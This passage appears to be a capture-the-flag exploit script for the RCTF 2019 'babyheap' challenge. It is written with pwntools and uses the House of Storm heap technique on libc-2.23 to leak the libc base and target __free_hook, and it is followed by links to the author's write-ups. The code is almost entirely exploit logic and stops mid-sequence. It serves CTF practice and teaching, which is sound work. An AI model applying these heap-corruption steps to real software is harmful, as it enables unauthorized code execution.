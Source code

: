 # exp
```python
from pwn import *
def cmd(c):
	p.sendlineafter(": \n",str(c))
def add(size):
	cmd(1)
	p.sendlineafter("ize: ",str(size))
	
def edit(idx,c):
	cmd(2)
	p.sendlineafter("dex: ",str(idx))
	p.sendafter("tent: ",c)
def free(idx):
	cmd(3)
	p.sendlineafter("dex: ",str(idx))
def show(idx):
	cmd(4)
	p.sendlineafter("dex: ",str(idx))
context.arch='amd64'

libc=ELF("./libc-2.23.so")
#p=remote("123.206.174.203",20001)

p=process('./babyheap')
#House of Storm
add(0x500)#0
add(0x88)#1
add(0x88)#2
free(0)
add(0x18)#0
edit(0,"A"*0x18)
add(0x88)#3
add(0x88)#4
free(3)
free(1)
add(0x2d8)#1
add(0x88)#3
add(0x48)#5
free(4)
show(5)
base=u64(p.readline()[:-1].ljust(8,'\x00'))-(0x7ffff7dd1b78-0x7ffff7a0d000)
libc.address=base
log.warning(hex(base))
#get libc base
add(0x458+0x90)#4
#clear main_arena

aim=libc.sym['__free_hook']
bk=aim-0x20+8
bk_nextsize=aim-0x20-0x18-5
add(0x500)#6
add(0x88)#7
add(0x88)#8
free(6)
add(0x18)#6
edit(6,"A"*0x18)
add(0x88)#9
add(0x88)#10
free(9)
free(7)
add(0x2d8)#7
```

[1]: https://n132.github.io/2019/05/07/2019-05-07-House-of-Storm/
[2]: https://n132.github.io/2019/05/10/2019-05-08-Startctf2019-Heap-master/#setcontext()
[3]: https://github.com/n132/Watermalon/tree/master/RCTF-2019/pwn/babyheapp